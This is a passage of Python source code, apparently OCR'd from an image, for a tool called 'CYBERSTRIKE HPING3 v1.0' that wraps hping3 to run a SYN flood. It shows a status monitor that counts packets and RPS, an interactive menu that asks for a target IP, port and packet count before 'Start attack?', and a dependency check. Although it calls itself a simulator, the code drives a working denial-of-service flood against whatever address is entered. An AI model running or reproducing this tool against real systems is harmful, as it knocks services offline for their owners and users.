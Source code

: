 ````
        process.terminate()
    except Exception as e:
        secure_log(f"hping3 error: {e}", "ERROR")

def monitor_stats(progress: Progress, task):
    while attack_running:
        time.sleep(1)
        with lock:
            elapsed = time.time() - stats["start_time"]
            rps = stats["packets_sent"] / max(elapsed, 1)
        table = Table(title="CYBERSTRIKE HPING3 v1.0 - STATUS")
        table.add_column("Metric", style="cyan")
        table.add_column("Value", style="green")
        table.add_row("Elapsed", f"{elapsed:.2f}s")
        table.add_row("Threads", str(threading.active_count()))
        table.add_row("Packets Sent", str(stats["packets_sent"]))
        table.add_row("Packets Received", str(stats["packets_received"]))
        table.add_row("RPS", f"{rps:.2f}")
        table.add_row("Target", f"{config.target_ip}:{config.port}")
        with console_lock:
            console.clear()
            console.print(table)
            progress.update(task, advance=1)
        secure_log(f"Status: RPS={rps:.2f}, Sent={stats['packets_sent']}")

def interactive_menu():
    session = PromptSession(multiline=False)
    console.print(__doc__)
    secure_log("CYBERSTRIKE HPING3 v1.0 (SYN Flood Simulator) started")
    target_ip = session.prompt("Please enter target IP: ", default=config.target_ip)
    port = session.prompt("Please enter target port: ", default=str(config.port))
    packet_count = session.prompt("Please enter packet count: ", default=str(config.packet_count))
    try:
        socket.inet_aton(target_ip)
        port = int(port)
        packet_count = int(packet_count)
        if not (1 <= port <= 65535):
            raise ValueError("Port must be between 1 and 65535")
        if packet_count < 1:
            raise ValueError("Packet count must be positive")
        config.target_ip = target_ip
        config.port = port
        config.packet_count = packet_count
    except (socket.error, ValueError) as e:
        console.print(f"[red] Invalid IP, port, or packet count: {e}. Using defaults: {config.target_ip}:{config.port}, {config.packet_count} packets[/red]")
        secure_log(f"Invalid input: {e}. Using defaults", "WARNING")
    console.print(f" Current target: {config.target_ip}:{config.port}")
    if session.prompt(" Start attack? (yes/no): ").lower() != "yes":
        console.print("[red]Attack cancelled.[/red]")
        secure_log("Attack cancelled")
        return False
    return True

def main():
    global attack_running, stats
    try:
        import prompt_toolkit, rich, psutil, cryptography
        subprocess.run(["hping3", "--version"], capture_output=True, check=True)
    except (ImportError, subprocess.CalledProcessError):
        console.print("[red] Missing dependencies. Install with: sudo apt install hping3 && sudo pip3 install prompt_toolkit rich psutil cryptography[/red]")
        sys.exit(1)
````
